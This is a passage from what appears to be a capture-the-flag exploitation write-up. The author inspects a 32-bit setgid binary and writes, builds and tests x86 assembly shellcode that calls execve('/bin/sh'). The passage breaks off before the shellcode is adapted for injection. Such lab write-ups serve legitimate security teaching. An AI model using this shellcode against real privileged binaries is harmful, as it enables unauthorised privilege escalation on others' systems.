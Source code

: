 Before writing anything we should check the architecture we're working with,
logging onto the machine and checking the file we see:

```
$ file vuln
vuln: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=df86b06c60f9f6b307f6d381d8498245c4d3691c, not stripped
```

So we will need to write 32bit shellcode.

### Constructing Shellcode

The simplest way I know to open a shell would be to make a call to
[`execve`](https://linux.die.net/man/2/execve), e.g. `execve("/bin/sh", NULL,
NULL)`. Let's write a program in assembly to make this call:

```asm
; in shell32.asm
; program to call execve("/bin/sh", NULL, NULL)

; syscalls under 32bit linux:
;   eax - syscall code
;   ebx - first arg
;   ecx - second arg
;   edx - third arg
; https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux

global _start
_start:
    ; build syscall:
    ; you can find tables for syscall codes online
    mov eax, 0xb    ; execve(
    mov ebx, path   ; "/bin/sh",
    mov ecx, 0x0    ; NULL,
    mov edx, 0x0    ; NULL)
    int 0x80        ; make the syscall

section .rodata
    path: db "/bin/sh"
```

Testing our program:

```
$ nasm -f elf32 -o shell32.o shell32.asm
$ ld -m elf_i386 -o shell32 shell32.o
$ ./shell32
$ ps -p $$
  PID TTY          TIME CMD
14181 pts/2    00:00:00 sh
```

Great, we spawned a new shell like we expected. Though we will need to make
some adjustments before we can write our program as shellcode. First let's look
at what we've made
